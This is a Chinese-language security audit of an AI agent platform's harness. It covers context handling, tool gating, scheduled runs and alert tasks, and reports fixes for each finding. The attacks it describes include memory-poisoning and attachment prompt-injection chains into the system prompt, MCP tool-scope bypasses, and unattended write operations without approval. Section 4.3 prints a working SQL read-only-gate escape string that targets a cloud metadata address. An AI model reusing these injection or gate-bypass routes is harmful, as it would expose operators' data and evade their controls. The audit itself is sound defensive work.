

# Deep Agent 全链路审计（2026-10-18）

> **范围**：`apps/agent-server`（含 `scripts/*-mcp.mjs`）+ `apps/web` 渲染层。按五条链路逐项对照 2026 年业界最佳实践：**上下文管理 / 输入输出 / 工具调用 / 定时任务 / 预警任务**。
> **方法**：联网收集最佳实践（来源见 §9）→ 分链路只读审计源码 → 对高危结论逐条回到源码复核，SQL 绕过做了实际复现。
> **行号**：基于 2026-10-18 工作区（含未提交改动），后续改动会漂移，以函数名为准。
> **关系**：[`DEEP_AGENT_PLAYBOOK.md`](./DEEP_AGENT_PLAYBOOK.md) 讲方法论与测试；本文是对照方法论的**落地体检**。架构权威仍是 [`CURRENT_ARCHITECTURE.md`](./CURRENT_ARCHITECTURE.md)。

---

## 0. 结论

Harness 骨架已经很完整：虚拟文件系统卸载、按重取代价清理工具结果、增量摘要、技能按需加载、子代理隔离、todo 持久化、nonce 定界、风险分级 fail-closed、Doom-Loop 熔断、预警标记协议、断线续传都已落地，注释和回归锚点质量高。

问题集中在三类：

1. **边界被旁路**：多个"侧门"绕过了主循环里的闸门——`count_list_by_time` / 代码桥直接调 MCP、MCP 按全局连接查找、附件/记忆/技能不加定界进系统提示、SQL 只读闸可被转义绕过。
2. **无人值守场景缺硬约束**：定时运行继承 `fullAccess=true`，MCP 写工具和 destructive 操作无人审批；预警在"数据源坏了"时永远静默。
3. **身份与租户**：`?owner=` 覆盖 cookie + IM 链接携带 ownerKey + 全局通知通道，三者叠加使"信任域内防串台"的设计假设在实际部署中失效。

| 严重度 | 数量 | 代表 |
| --- | --- | --- |
| P0（可直接利用 / 数据泄露） | 15 | 越权读对话、上传存储型 XSS、SQL 只读绕过、工具作用域旁路、无人值守写操作免审、检查失效静默 |
| P1（正确性 / 静默失败） | 17 | 历史静默丢失、配额少记、失败通知死代码、多实例双跑、cron 忽略时区 |
| P2（体验 / 成本 / 可观测） | 若干 | 缓存命中、指标无工具名、OTLP 扁平、摘要硬截断 |

---

## 1. 全链路与审计切面



每条链路给出：**最佳实践基线 → 现状对照表 → 问题 → 建议**。状态记号：✅ 达标　🟡 部分　🔴 缺失 / 有风险。

---

## 2. 上下文管理

### 2.1 基线

| # | 最佳实践 | 来源 |
| --- | --- | --- |
| C1 | 大结果**卸载而非截断**：落盘全文，上下文留预览 + 指针；阈值可配 | LangChain Deep Agents、Anthropic 上下文工程 |
| C2 | **工具结果清理**：旧 `tool_result` 换占位、保留 `tool_use` 记录，保留最近 N 组、可排除特定工具 | Anthropic `clear_tool_uses` |
| C3 | **压缩可恢复**：接近窗口（~85%）触发，摘要保留决策/未决问题/关键事实，原文可取回 | Anthropic、Deep Agents |
| C4 | token 计数用真实分词或回读用量校准，预算扣除系统提示 | 通用 |
| C5 | Prompt 缓存：稳定前缀在前、动态在尾，工具清单稳定 | Anthropic / OpenAI |
| C6 | 技能渐进加载：索引常驻、全文按需 | Deep Agents Skills |
| C7 | 长期记忆：受控写入、作用域隔离、防投毒 | Deep Agents memory、OWASP |
| C8 | 子代理隔离：干净上下文、只回摘要 | Deep Agents subagents |
| C9 | 计划状态持久化、压缩后可重注入 | Deep Agents TodoList |
| C10 | 不可信内容**不进 system**，统一定界 | OpenAI Agent Safety、OWASP |
| C11 | 单次运行有轮次 + token 双预算 | 通用 |

### 2.2 对照

| # | 现状 | 状态 |
| --- | --- | --- |
| C1 | `prepareToolResultText` 先按 `MAX_TOOL_RESULT_CHARS=12000` 截断（`chat.ts:1638-1644,1712`），轮末 `governToolResults` 才卸载（`chat.ts:1459-1521`）→ **落盘的是截断后的残片**；卸载只在合计超 `TOOL_RESULT_BUDGET` 时触发，占用工作区 100 文件名额且不清理 | 🔴 |
| C2 | 运行内保留最近 3 组、按重取代价排序（`chat.ts:3625`、`tool-result-governance.ts`），设计好；但保护名单默认空，`read_skill` / `write_todos` 会最先被清掉；跨轮 handle 不带 `results/` 路径 | 🟡 |
| C3 | 增量摘要 + 水位线，原文只追加不删（服务端可恢复）；但见问题 C-2/C-3 | 🔴 |
| C4 | 字符估算（`models.ts:18-27`），不读回 `usage`；`historyBudgetTokens` 不扣系统提示（记忆 2000 字 + 技能 12000 字 + 附件 20000 token） | 🟡 |
| C5 | 稳定/动态两段 + anthropic `cache_control`；但时钟精确到秒、技能索引在稳定段、工具清单运行中增删（deferred 加载 / 收尾去工具）、消息段无缓存断点 | 🟡 |
| C6 | 索引常驻 + `read_skill` 按需；但 `read_skill` 结果被当不可信包裹，与"按技能步骤执行"矛盾；用户导入技能勾选后却**不加定界**进 system | 🟡 |
| C7 | owner 隔离、长度/条数上限、完整性校验；但模型（含子代理）可自主 `save_memory`，记忆无定界进 system → **投毒链** | 🔴 |
| C8 | 空上下文 + 最小工具集 + 回传定界 + 并行 3；提示说 400 字、硬上限 4000 字不一致；子代理无时钟；共用工作区 | 🟡 |
| C9 | 落库 + 每次运行重注入 | ✅ |
| C10 | 工具结果/子代理回传已定界；**附件、记忆、历史摘要、收尾证据摘录**未定界，附件还带"以附件为准" | 🔴 |
| C11 | 28 轮 + 30 次调用 + Doom-Loop；`MAX_TOTAL_TOKENS` 默认 0（关）；循环内不检查单次请求是否超窗口 | 🟡 |

### 2.3 问题（已复核）

- **C-1 截断先于卸载（P1）**：违背"卸载而非截断"。修：入口按单条大小判定，超阈值落盘 `rawText` 全文，上下文只放预览 + 路径；卸载目录独立配额并按 TTL 清理。
- **C-2 历史静默丢失（P1）**：`history.ts:161-163` 只取最近 `8×2` 条；窗口外的 `older` **只有在超预算时**才进摘要（`history.ts:205`），未超预算就直接不发、也不计 `dropped`。长对话第 9 轮起，早期约定/口径会无声消失。修：窗口外一律先吸收进摘要，失败才记 `dropped`。
- **C-3 摘要截断后仍推进水位线（P1）**：`history.ts:183-186` 输入 `.slice(0, 24000)` 从头截，却按全量 `covered += absorb.length`（198）；摘要再硬截到 1200 字（195）。修：分块摘要或只推进实际吸收条数；摘要提示词显式要求保留"已定口径 / 用户纠正 / 未决问题 / 产物路径"。
- **C-4 候选模型重复压缩（P2）**：`conversation` 在候选循环外读取（`chat.ts:4210`），切模型时用旧水位线重复摘要并覆盖。
- **C-5 每日配额严重少记（P1）**：`costTokens = Σ loop.spentTokens`（`chat.ts:4603`），而 prompt token 只在 `MAX_TOTAL_TOKENS>0` 时累加（`chat.ts:2272`），收尾/核验部分却无条件累加（2579/2639/3717）。默认配置下 `costTokens` 是个小正数，不会回落到 `totalTokens` 估算，**配额与 `bx_agent_tokens_total` 指标都只记了零头**。修：prompt 累加移出 `if`，或改为读回模型真实 usage。
- **C-6 记忆投毒链（P0）**：外部内容 → 诱导 `save_memory`（子代理亦可）→ 下次对话无定界进 system。修：`save_memory` 需确认且子代理禁用；注入时定界并放动态段末。
- **C-7 预览破坏定界（P2）**：卸载预览截取已包裹文本前 1200 字（`chat.ts:1414`），只有开标签无闭标签，紧跟服务端"取回协议"。修：先截原文再包裹。

---

## 3. 输入输出

### 3.1 基线

输入：请求 schema 校验与限长、上传魔数校验与隔离解析、认证与归属隔离、限流与配额、入站脱敏、不可信输入定界且不进 system、歧义澄清门。
输出：结构化输出 + schema 校验、数值/接地核验、流协议健壮（心跳/续传/缺口）、前端渲染消毒（禁 raw HTML、限制外链图片防外带）、出站脱敏覆盖**所有**通道、错误不泄露上游原文。（OWASP AI Agent Security Cheat Sheet §2/§5、OpenAI Agent Safety）

### 3.2 对照

| 项 | 现状 | 状态 |
| --- | --- | --- |
| 请求校验 | 分档 bodyLimit；无 schema 校验，`readJson` 失败静默返回 `{}`（`app.ts:903`），消息快照原样落库 | 🟡 |
| 上传 | 类型白名单 + 5MB；**`mediaType` 取浏览器 `file.type`**（`uploads.ts:133`）并原样作 `Content-Type` 返回；不按 owner 隔离；主进程同步解析 docx/xlsx 无超时 | 🔴 |
| 身份/归属 | owner cookie（设计上明确"不是认证"，`owner.ts:3-4`）；但 `?owner=` 优先并回写 cookie；`POST /chat/conversations` 接受客户端 id 且不校验归属 | 🔴 |
| 管理面 | `/skills` 写入、`/chat/mcp/custom` 不需管理员令牌，均为全局生效 | 🔴 |
| 限流/配额 | `/chat/stream` 20 次/分 + 并发 3；key 可被换 owner 绕过；上传/确认/快照不限流；硬配额默认关 | 🟡 |
| 入站脱敏 | 无；trace / task-store / results 落原文 | 🔴 |
| 注入防护 | 工具结果 nonce 定界 ✅；附件原文与文件名无定界进 system（`chat.ts:1617-1633,4516`） | 🔴 |
| 澄清门 | `request_clarification` schema 校验 + 写操作延后 + 子代理禁问 | ✅ |
| 结构化输出 | 澄清/todos/图表子输出有 schema；最终回答结构只靠提示词，`hasCaliberSection` 仅兜底路径使用且正则宽松 | 🟡 |
| 数值/接地 | 零证据拦截、多票核验、合计 vs 分项确定性比对；百分比/同比/表格数字不校验；`PART_RE` 会把日期误当分项 | 🟡 |
| 流协议 | 心跳 + seq + taskId 续传 + 取消归属校验；缓冲超 2000 条静默丢最早事件、无 `gap` 标记 | 🟡 |
| 前端渲染 | markdown-it → DOMPurify 白名单；但 `html: true`、**放行远程 https 图片**（`chat-richtext.ts:184-188`，`` 外带通道）、允许 `id/name` | 🟡 |
| 出站脱敏 | 仅最终 `text` 事件（`chat.ts:4759`）；`text_delta` / `thinking_delta` / `tool_result` / 中断分支 / 续传快照 / 导出文件均原文 | 🔴 |
| 错误信息 | HTTP 兜底统一；工具原始错误经 `tool_result` 原样展示；配额提示暴露环境变量名 | 🟡 |

### 3.3 问题（P0 均已复核）

- **IO-1 越权读写对话（P0）**：`createConversation` 按客户端 id `updateMany(..., {upsert:true})`（`conversations.ts:377-396`），id 已存在时改写对方标题并返回完整文档。id 形如 `conv_<ms>_<6位base36>` 可推测。修：id 一律服务端生成；或 upsert 过滤加 `ownerKey`，不匹配返回 404。
- **IO-2 上传存储型 XSS（P0）**：文件名 `x.txt` + `type: text/html` → 扩展名回退通过、`mediaType` 存 `text/html` → 同源返回。修：`mediaType` 只取 `MEDIA_BY_EXT[ext]`；响应加 `Content-Disposition: attachment`、`X-Content-Type-Options: nosniff`、`CSP: sandbox`。
- **IO-3 owner 固定 / 冒用（P0）**：`resolveOwner` 让 query 覆盖 cookie（`owner.ts:19-32`），IM 链接带长期 ownerKey。修：链接改为一次性 HMAC 短令牌，兑换后签发 cookie；去掉 query 覆盖路径。长期方向：登录体系（方案 B）。
- **IO-4 附件注入（P0）**：附件原文 + 文件名无定界进 system 且被提升为"以附件为准"。修：`wrapUntrusted` 后放 user 消息，文件名清洗。
- **IO-5 技能 / 自定义 MCP 全局写入（P0）**：任意设备可改技能（进所有人 system）或加全局 MCP（可指向内网、自报 `readOnlyHint` 即免确认）。修：两类写入走 `admin-gate`，自定义 MCP 做私网拦截且不信任自报 annotations。
- **IO-6 导出 HTML 链接参数写反（P1）**：`report.ts:108` 生成 `<a href="$1">$2</a>`，href 实为链接文字，`[javascript:…](https://x)` 可产出可执行链接。修：`href="$2">$1`。
- **IO-7 CSV / xlsx 公式注入（P1）**：`csvCell`（`builtins.ts:1166`）不处理 `= + - @` 开头。修：前缀 `'`。
- **IO-8 出站脱敏不全（P1）**：在 `publishTaskEvent` 统一打码（delta 跨块缓冲），导出写盘前再打一次。
- **IO-9 远程图片外带（P1）**：图片仅允许同源 / data URI，或走服务端代理；关闭 markdown-it `html`。

---

## 4. 工具调用

### 4.1 基线

| # | 最佳实践 | 来源 |
| --- | --- | --- |
| T1 | 工具少而精、不重叠；严格 schema（enum / `additionalProperties:false` / 边界）；按需加载 | Anthropic Writing Tools、MCP 设计指南 |
| T2 | **服务端校验模型参数**，失败返回带字段路径的可执行错误 | 同上 |
| T3 | 执行错误以 `isError` 回给模型、写清下一步；瞬时错误退避重试；熔断带 half-open | MCP 规范、Anthropic |
| T4 | 每次调用超时 + 取消透传 + 并发上限 | 通用 |
| T5 | 结果体量：分页 / 过滤 / 截断带指引 / concise 档；默认 ≤25k token | Anthropic |
| T6 | 循环控制：轮次、重复检测、停滞检测、预算 | Deep Agents |
| T7 | **闸门在执行层强制**而非提示词；最小权限；destructive 需人审；MCP 白名单；工具描述与 annotations 视为不可信；SSRF / SQL / 沙箱 | OWASP MCP Tool Poisoning、OWASP Agentic Top 10 2026、AISVS C9 |
| T8 | 写操作幂等键；每次调用审计（参数脱敏） | 通用 |
| T9 | 每工具延迟/错误率、GenAI 语义约定 span | OpenTelemetry GenAI |

### 4.2 对照

| # | 现状 | 状态 |
| --- | --- | --- |
| T1 | 内置描述质量高，`search_tools` deferred 加载；但 schema 无 `additionalProperties:false`/enum/min-max，未开 strict；`run_command`/`run_script`/`run_tool_code` 与 metabase `execute_sql`/`query`/`run_native_query` 重叠；MCP 描述无长度上限、不清洗、缓存不钉哈希 | 🟡 |
| T2 | `safeJsonParse` 非法 JSON 静默 `{}`（`models.ts:328`）照常执行；`argsWithinToolSchema` 只裁剪未知键，不校验 required/类型 | 🔴 |
| T3 | 错误分类 + 窗口熔断（`tool-failure.ts`）设计好；Anthropic `tool_result` 不带 `is_error`（`models.ts:306`）；`callMcpTool` 无退避重试；熔断无 half-open、仅单轮 | 🟡 |
| T4 | MCP 60s 超时 + signal；shell 超时强杀；只读并发 4；`fetch_url`/`web_search`/`runShell` 不接 signal；确认等待不响应中止（`confirm.ts:41-55`） | 🟡 |
| T5 | 截断带指引、按重取代价卸载、metabase concise/detailed、翻页闸门；MCP 非文本内容（base64）原样 stringify | ✅ |
| T6 | 28 轮 / 30 次 / Doom-Loop / 阶梯提醒 / 看门狗；`TOOL_REPEAT_STOP_AFTER` 默认只提醒 | ✅ |
| T7 | 风险分级 fail-closed、硬拒不受 fullAccess 影响、stdio 白名单、env 白名单；但存在多处旁路（见下） | 🔴 |
| T8 | 审计只记闸门决策，不记执行结果；内层调用不留痕；写工具无幂等键 | 🟡 |
| T9 | 每调用有 span；Prometheus 无工具名标签；OTLP 扁平、`gen_ai.conversation.id` 填成 runId | 🟡 |

### 4.3 问题（P0 均已复核）

- **T-1 `count_list_by_time` 绕过风险闸门（P0）**：`builtins.ts:2042-2077` 把模型给的 `tool` 直接交给 `callMcpTool` 翻页（最多 400 页），不走 `resolveToolRisk`、不查本对话工具集；外层登记 read 免确认。修：内层工具先过风险判定，仅允许 read 且在 `ctx.mcpTools` 内。
- **T-2 MCP 工具全局查找（P0）**：`hub.ts:519-525` `findTool` 遍历所有已连接服务器，主循环执行前不校验工具名是否属于本对话/子代理/定时任务的授权集。修：执行前强制 `serverOf.has(name)`，把授权集传入 `callMcpTool`。
- **T-3 代码桥漏检（P0）**：`callToolFromCode`（`chat.ts:2132-2167`）不查 `deniedBuiltins`/`allowBuiltins`，无审计、无 span、不计熔断。
- **T-4 SQL 只读闸绕过（P0，已复现）**：`sql-readonly-common.mjs:57` 用 `'[^']*'` 去引号，不识别 `\'`。实测：
  ```text
  SELECT 'a\'' , url('http://169.254.169.254/','RawBLOB') , '\''   => isReadOnlySql = true
  SELECT * FROM s3Cluster('c','http://x/')                        => isReadOnlySql = true
  ```
  服务端与 metabase 适配器共用该函数，**纵深防御两层同时失效**。修：改用 SQL tokenizer/AST，表函数白名单化；数据库账号层禁用 URL/remote 类函数并封出网（这才是真正的最后一道）。
- **T-5 `fetch_url` SSRF（P0）**：`redirect: "follow"`（`web-search.ts:337`）跳转后不复检；不做 DNS 解析后判 IP（`*.nip.io`）；`::ffff:` 映射地址未拦；登记为 workspace 不审计。修：手动跟随逐跳校验、解析后判 IP、登记 external。
- **T-6 destructive 默认免审（P0，与产品决策冲突需重议）**：`fullAccess` 缺省 true（`CURRENT_ARCHITECTURE.md` §3 已记录为既定决策）。交互场景可以接受"确认疲劳"论证，但对 `unknown` 级 MCP 工具、`run_*`、以及**无人值守**（§5）不应豁免。建议：保留交互便利，但 `unknown` / `run_*` / 定时运行一律强制确认或硬拒。
- **T-7 风险名匹配错位（P1）**：`risk.ts:105` 用编码名 `split("__").pop()` 匹配原始名，而 `hub.ts:194-200` 会替换非法字符/截断/加 `_2` 后缀，导致工具查不到自己的 `destructive` 配置落到 `"*"`。
- **T-8 `run_tool_code` 可读明文凭据（P1）**：拒读清单不含 `.data/mcp-servers.json`，且不限出网。
- **T-9 参数不校验（P1）**：用 Ajv 编译 inputSchema，失败返回 `isError` + 字段路径，不派发。

---

## 5. 定时任务

### 5.1 基线

有界、幂等的后台作业：显式时区与 DST 策略、错过补跑上限、重叠策略、多实例锁 + CAS 推进、每期执行 id 去重（先推进后执行 / 投递去重）、单期总时长与成本预算、**无人值守只给只读工具并每期复核权限**、失败退避重试、连续失败自动暂停、调度心跳与漏跑告警、暂停 ≠ 中止在跑实例。（Integrated Cognition、agentsurface Background Agents、AWS Ambient Agents、Temporal 调度语义）

### 5.2 对照

| 项 | 现状 | 状态 |
| --- | --- | --- |
| 时区 | `new Cron(expr)` 未传 `timezone`（`schedules.ts:276,285`），任务 `timeZone` 只用于分桶 | 🔴 |
| 补跑 | 过期只补一期（`schedules.ts:630`）；无"过期多久放弃"上限；接受过去的 `onceAt` | 🟡 |
| 重叠 | 单实例 `inFlight` + `isTaskRunning` ✅；tick 内串行执行，长报告阻塞同刻预警 | 🟡 |
| 多实例 | 锁在 `finally` **先释放**再写 `nextRunAt`（`schedules.ts:669-734`）→ 双跑窗口；TTL 30 分钟不续期 | 🔴 |
| 幂等 | 无每期 runId；先投递（`app.ts:2400`）后推进周期 → 崩溃重启重复执行 + 重复推送 | 🔴 |
| 运行边界 | 报告 28 轮 / 预警 12 轮 + forceWrapUp ✅；无单期总时长上限（只有无进展看门狗）、无单期 token 上限 | 🟡 |
| 工具约束 | 禁用清单（`schedule-alert.ts:482-490`）而非白名单；`fs_write`/`image_gen`/`task`/**所有 MCP 写工具**可用；继承 `fullAccess=true` 免确认；`chatStream` 已支持 `toolAllowlist` 但调度未用 | 🔴 |
| 最小权限 | 任务未勾 MCP 时回退对话启用集（`app.ts:2309`）；不复核 owner | 🟡 |
| 失败处理 | 仅"对话占用"排队重试；执行失败不重试；无连续失败计数/自动暂停 | 🔴 |
| 心跳 | 无 `lastTickAt`、无调度器指标、无漏跑检测 | 🔴 |
| 可观测 | 最近 50 期运行记录、`/run` `/wake` 手动触发 ✅；无 `lastSuccessAt`；暂停不中止在跑实例 | 🟡 |
| 创建安全 | `manage_schedule` 声明"创建弹确认卡"（`builtins.ts:492`），但 fullAccess 默认下**实际不弹**；外部注入可建持久任务，结果经全局通道外发 | 🔴 |
| 配额 | 每 owner 20 个、间隔 ≥1 分钟、prompt ≤2000 字；owner 可无限新建，无全局上限 | 🟡 |

### 5.3 问题

- **S-1 无人值守写操作免审（P0）**：修：定时运行强制 `toolAllowlist`（只读内置 + 任务授权 MCP 的 read 级工具），`verdictNeedsConfirm` 直接硬拒（无人可确认，挂等只会超时）。
- **S-2 `manage_schedule create` 免确认（P0）**：创建持久化后台任务属于"扩权"，不应受 `fullAccess` 豁免；审计记录创建来源（用户直述 / 工具结果诱导）。
- **S-3 多实例双跑 + 崩溃重复推送（P1）**：锁内 `findOneAndUpdate({id, nextRunAt: due}, {$set:{nextRunAt: next}})` CAS 推进后再执行；`runId = hash(scheduleId+due)` 唯一索引，投递前查 `deliveredRunIds`；锁心跳续期。若坚持单实例，在 `CURRENT_ARCHITECTURE.md` 明示并在启动时检测。
- **S-4 cron 忽略时区（P1）**：`new Cron(expr, { timezone: schedule.timeZone ?? DEFAULT_TZ })`；文档写明 DST 跳过/重复时刻的策略。
- **S-5 无失败治理（P1）**：`consecutiveFailures` 计数，N 次后 `enabled=false` 并推送；执行失败按退避重试 1 次。
- **S-6 无调度心跳（P1）**：记录 `lastTickAt` 暴露到 `/metrics`；任一任务 `nextRunAt` 过期超阈值即告警。
- **S-7 补跑上限 / 队头阻塞（P2）**：`maxCatchUpMs`；tick 内按任务异步派发 + 并发上限。
- **S-8 自主度降级误伤报告任务（P2）**：`autonomy.ts:45-57` 把报告型任务轮次砍到 4/8，形成"越失败预算越少"的循环。

---

## 6. 预警任务

### 6.1 基线

告警状态机（ok → firing → resolved）+ 去重 / 冷却 / 重复通知间隔 + 恢复通知 + 防抖；**阈值在代码里确定性判定**，LLM 只做解释；**故障 ≠ 无数据 ≠ 正常**，检查失效本身要告警；按严重度分级、批量摘要防告警疲劳；通知带"变化了什么 / 来源 / 下一步"；投递重试与回执；通道按租户隔离、链接不带长期凭据。

### 6.2 对照

| 项 | 现状 | 状态 |
| --- | --- | --- |
| 标记协议 | 首行 `[SPIKE]/[NORMAL]/[NO_DATA]`，缺标记记失败（`schedule-alert.ts:88-101`）；计数事实由代码重写 | ✅ |
| 状态机 | `firing` + 连续 2 期 NORMAL 才恢复并推送恢复通知（`schedule-alert.ts:418-454`）——仅恢复方向防抖 | 🟡 |
| 去重 / 冷却 | **SPIKE 每期都推**；firing 期间复查加密到半周期（≥5 分钟）→ 最坏每 5 分钟一条；无严重度、无重复通知间隔 | 🔴 |
| 确定性阈值 | 仅 `count_list_by_time` + `above` 时代码判定；阈值靠正则抓中文"超过 N"（`:155-160`），其余全靠模型 | 🟡 |
| 故障 vs 无数据 | `NO_DATA` 视为成功、不推送不升级；且**不清除 firing** → 持续按加密频率空跑烧钱 | 🔴 |
| 失败通知 | `on_alert` + 失败 + 无标记时 `shouldDeliverScheduleResult` 返回 false（`schedule-alert.ts:67-69`），`deliverScheduleResult` 在 `app.ts:766-775` **提前 return**，后面的 `decideAlertFailure`（60 分钟合并）、`failingSince`、`checkIncomplete`（`app.ts:797`）都走不到 | 🔴 |
| notifyOn 过滤 | `notifyOn` 不含当前状态时直接 return（`app.ts:762`），`alertState` 不更新 | 🔴 |
| 投递 | 8s 超时、并行、逐通道结果；3500 字截断；启动确认失败顺延 ✅；无重试、无限流、无摘要合并 | 🟡 |
| 通道凭据 | 域名白名单防 SSRF ✅；明文存 `.data/notify-channels.json` | 🟡 |
| 租户隔离 | **通道全局**：每个 owner 的结果推给所有启用通道（`app.ts:832`） | 🔴 |
| 链接安全 | 链接带 `&owner=<ownerKey>`（`notify/deliver.ts:751,1123,1183`）+ query 覆盖 cookie → 群内任何人点开即接管该设备身份 | 🔴 |
| 异常检测 | `anomaly.ts` 基线仅进程内存，结果只写日志/指标不推送 | 🟡 |

### 6.3 问题（已复核）

- **A-1 跨租户泄露 + 身份接管（P0）**：通道按 owner 归属；链接改一次性签名令牌（同 IO-3）。
- **A-2 检查失效永远静默（P0）**：数据源坏了几天，预警仍"一切正常"——这是预警系统最致命的失效模式。修：拆出 `SOURCE_ERROR` 标记（工具报错 / 超时 / 熔断），与 `NO_DATA` 分开；引入 `noDataSince` / `failingSince`，持续 N 期推一条"检查失效"；`NO_DATA` 不维持加密频率。
- **A-3 失败通知死代码（P1）**：`shouldDeliverScheduleResult` 不应对 `on_alert` 失败提前拦截，交给 `decideAlertFailure` 做合并与节流。
- **A-4 告警疲劳（P1）**：SPIKE 增加 `renotifyIntervalMs`（默认 = 名义周期或 1 小时）与严重度；firing 期间只在"严重度升级 / 超过重复间隔 / 恢复"时推送。
- **A-5 阈值确定性（P2）**：创建预警时把阈值结构化（`metric / op / value / window`）存入任务，判定在代码里完成，模型只写解释。

---

## 7. 项目内有意偏差（不计为缺陷，但需重新评估边界）

| 决策 | 依据 | 本次建议 |
| --- | --- | --- |
| `fullAccess` 默认 true | 确认疲劳论证（`risk.ts:198-204`），对齐 CodeBuddy | **交互场景保留**；对 `unknown` 级工具、`run_*`、定时运行、`manage_schedule create` 收紧（T-6 / S-1 / S-2） |
| owner cookie 不是认证 | `owner.ts:3-4` 明示"信任域内防串台" | 设计假设被 IM 链接 + 全局通道打破；短期改签名令牌，长期上登录（方案 B） |
| 在线评测不用 LLM-as-Judge | `eval-online.ts` 文件头：成本与评委偏好 | 维持；建议把"回答结构合法率""数值核验命中率"作为确定性指标补进 |

---

## 8. 修复路线图

### P0（建议本周）

| 编号 | 事项 | 主要文件 |
| --- | --- | --- |
| IO-1 | 对话 id 服务端生成 / upsert 带 owner 过滤 | `app.ts`、`conversations.ts` |
| IO-2 | 上传 mediaType 白名单 + 安全响应头 | `uploads.ts`、`app.ts` |
| IO-3 / A-1 | IM 链接签名一次性令牌；去掉 query 覆盖；通道按 owner 归属 | `owner.ts`、`notify/*`、`app.ts` |
| IO-4 / C-6 | 附件、记忆、摘要、证据摘录统一定界且移出 system；`save_memory` 需确认、子代理禁用 | `chat.ts`、`system-prompt.ts`、`builtins.ts` |
| IO-5 | 技能写入 / 自定义 MCP 走管理员令牌 + 私网拦截 | `app.ts`、`mcp/config.ts` |
| T-1 / T-2 / T-3 | 所有 MCP 调用入口（主循环、count、代码桥）统一过"授权集 + 风险判定" | `builtins.ts`、`chat.ts`、`mcp/hub.ts` |
| T-4 | SQL 闸改 tokenizer + 表函数白名单；DB 账号层封 URL/remote 与出网 | `scripts/sql-readonly-common.mjs` |
| T-5 | `fetch_url` 逐跳校验 + DNS 后判 IP + v6 映射 | `web-search.ts` |
| S-1 / S-2 | 定时运行只读白名单 + 需确认即拒；`manage_schedule create` 强制确认 | `app.ts`、`schedule-alert.ts`、`risk.ts` |
| A-2 | `SOURCE_ERROR` 标记 + 检查失效告警 | `schedule-alert.ts`、`app.ts` |

#### P0 修复状态（2026-10-18）

| 编号 | 状态 | 落地方式 | 回归测试 |
| --- | --- | --- | --- |
| IO-1 | 已修 | `POST /chat/conversations` 带 id 时，id 已属他人返回 404，不改写不回传 | `conversation-create-ownership` |
| IO-2 | 已修 | mediaType 只按扩展名白名单定；下载加 `nosniff`、`CSP sandbox`，非图片强制附件 | `upload-media-type` |
| IO-3 / A-1 | 部分 | 链接只带对话 id（`?conv=`），不带设备身份，`?owner=` 已移除。目前没有鉴权体系，不加票据：定时任务的对话对持链接的人只读开放（详情、导出、文件、任务状态与事件），改名 / 删除 / 续聊仍只认主人；主人的普通对话别人读不到。**通道按 owner 归属暂缓**：通道是管理员配置的全局资源，决定等登录体系（方案 B）上线后一起做 | `task-conversation-link` |
| IO-4 / C-6 | 已修 | 附件定界后拼进本轮 user 消息（不进 system、去掉"以附件为准"）、附件名清洗；记忆与摘要定界并移到动态段末尾；子代理拿不到也调不了 `save_memory`。`save_memory` 交互场景的确认沿用 fullAccess 决策 | `context-untrusted-injection` |
| IO-5 | 已修 | 技能增删改导入、启停与 `/chat/mcp/custom` 增删走管理员令牌（配了 `AGENT_ADMIN_TOKEN` 才生效）；自定义连接器拒绝本机 / 私网地址（`MCP_CUSTOM_ALLOW_PRIVATE=on` 可放开）；面板添加的连接器只信 `destructiveHint` | `global-write-admin-gate` |
| T-1 / T-2 / T-3 | 已修 | 主循环串行 / 并行、`count_list_by_time`、代码桥统一过"本次启用连接器 + 只读免确认"判定 | `mcp-scope-gate` |
| T-4 | 已修 | 单遍字面量遮蔽（两种转义口径都要通过）+ 表函数黑名单扩充。DB 账号层封出网仍需运维侧配置 | `sql-readonly-escape-bypass` |
| T-5 | 已修 | 手动跟随重定向逐跳校验、DNS 解析后判 IP、覆盖 v6 映射 / NAT64。DNS rebinding 剩余风险见 `web-search.ts` 文件头 | `fetch-url-ssrf` |
| S-1 / S-2 | 已修 | 无人值守遇到需确认的调用直接拒绝；`manage_schedule` create / resume 不受 fullAccess 豁免 | `unattended-confirm-gate` |
| A-2（含 A-3） | 已修 | 预警失败不再提前丢弃，交给 60 分钟合并发"检查没有完成"；连续 3 期 `NO_DATA` 发"检查失效"并 60 分钟节流；告警中但本期 `NO_DATA` 不加密频率 | `schedule-alert` |

#### 实例实测（2026-10-18，隔离实例 8899 + 独立 Mongo 库 + 假钉钉机器人，逐项串行）

全部 P0 项在运行中的实例上复测通过。实测和复查发现 7 处单测没覆盖到的问题，已修并补测试：

| 项 | 实测发现 | 修复 |
| --- | --- | --- |
| IO-2 | 文件名 `evil.html`、声明 `image/png` 仍按 png 落盘 | 扩展名先看文件名、再看 MIME；图片校验魔数（png / jpg / webp），内容不符拒收 |
| IO-5 | 自定义连接器域名解析失败被报成"指向私网" | 解析失败单独返回 `MCP_SERVER_UNRESOLVABLE` |
| T-1/2/3 | 越界 MCP 调用先命中业务技能闸，提示"先读技能再重试"，诱导模型重试 | 作用域判定挪到业务技能闸之前（串行、并行、代码桥三处） |
| T-4 | 服务端闸门对 `query` / `sql` 取"任一只读即放行"，而适配器执行的是 `query`：`{query: 恶意, sql: "SELECT 1"}` 能过服务端这一层（适配器仍拦） | 带了的 SQL 字段每个都必须只读 |
| IO-3 | 票据只签名不加密，base64 解出来就是 ownerKey；owner cookie 就是 ownerKey 本身，等于把凭据贴在链接上 | 票据改 AES-256-GCM（加密兼防篡改），解码看不到 ownerKey |
| IO-3 | 群里第一个点链接的人会拿到主人的完整身份，能看能改主人全部对话；其他人点进来只看到空列表 | 链接不再携带 ownerKey；任务对话对持链接的人只读开放，群里谁点都能看，看不到也改不了主人的其他对话 |
| 数据目录 | `AGENT_DATA_DIR` 只覆盖部分数据：trace、审计、评测、对话文件、上传、模型健康、MCP 来源、RAG 仍写死仓库 `.data`，测试和隔离实例都会写进仓库 | 8 个模块统一走 `DATA_DIR`；vitest 默认用临时目录 |

